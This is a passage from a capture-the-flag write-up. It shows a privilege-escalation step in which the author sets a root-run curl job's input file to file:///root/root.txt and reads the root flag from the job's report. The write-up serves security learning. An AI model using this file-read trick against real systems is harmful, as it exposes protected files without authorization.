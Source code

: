 # Escalation

In `/home/floris/admin-area`, we can find 2 files. First seems to be an url and the `report` seems to be the result of the curl command.
Let's try a `LFI` to read root flag on the box.

```bash
$ cat input 
url = "file:///root/root.txt"
$ cat report 
82c198ab6fc5365fdc6da2ee5c26064a
```

We get the flag !
